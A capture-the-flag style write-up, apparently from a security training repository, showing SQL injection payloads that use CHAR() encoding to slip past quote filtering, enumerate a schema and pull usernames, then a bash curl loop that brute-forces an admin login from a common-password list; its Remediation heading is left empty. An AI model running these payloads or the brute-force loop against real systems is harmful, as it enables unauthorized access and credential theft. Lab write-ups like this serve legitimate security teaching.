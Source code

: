 # Brute Force

From exploiting [SQL Injection Vulneribilities](../0x0a-sql_injection-members/README.md), it is recoginzed that the schema `Member_Brute_Force` existed on the database. We know the schema exists, but certainly don't know what tables, or other information exists in the schema.

But using the query `1 and 1=1 UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema='Member_Brute_Force'` will give an error, as the quotation would cause an error from the php.

In order to bypass, following script will create a set of char:

```
$ python -c 'print([ord(c) for c in "Member_Brute_Force"]);'
[77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101]
```

so this can be directly used as this
```
where table_schema='Member_Brute_Force'
where=CHAR([77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101])

#query
1 and 1=1 union select table_name,2 from information_schema.tables where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)
```

by doing so, we can find `db_default` table in `Member_Brute_Force` schema:

<img width="1186" alt="image" src="https://user-images.githubusercontent.com/46742040/202880957-1ac03f76-c4e2-4c15-a9af-74c0bc92f5d8.png">

In order to take a look at the `db_default` table in `Member_Brute_Force` schema, following query needs to be executed, but as the php causes an error, it needs to be changed as well

```
#before
1 and 1=1 UNION SELECT column_name, 2 FROM information_schema.tables WHERE table_schema='Member_Brute_Force' and table_name='db_default'
#after
1 and 1=1 union select column_name, 2 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) and table_name=CHAR(100, 98, 95, 100, 101, 102, 97, 117, 108, 116)
```

By doing so, we can acknowledge there are four columns `id`, `username`, `password`

<img width="1223" alt="image" src="https://user-images.githubusercontent.com/46742040/202880932-0224ef49-d154-4254-ad4b-629b66adbf1c.png">

To check username in the `db_default` table, this query needs to be run

```
1 and 1=1 union select username,2 from Member_Brute_Force.db_default
```

Once we run the query, we know there are two users `admin`, and `root` exists for login.


Of course the password can be retrieved with sending a query to the `Member_Brute_Force` table, we can also try using the Brute Force Method. In order to do so, the following script can be run, with password in [here](./2020-200_most_used_passwords.txt), [2020-200-most_used_passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt) from [SecLists](https://github.com/danielmiessler/SecLists)


```
$ cat 2020-200_most_used_passwords.txt| while read password; do flag=$(curl -L "http://{IP_ADDR}/?page=signin&username=admin&password=${password}&Login=Login" 2>/dev/null |  grep "flag" | wc -l); if [[ "${flag}" -eq 1 ]]; then echo "Success: The password is ${password}";break 2; fi; done

# if the password exists, the script will print out the password.
Success: The password is shadow

```

Loggin in with ID and password found, `id: admin, pw: shadow`, the token will be present.

## Remediation

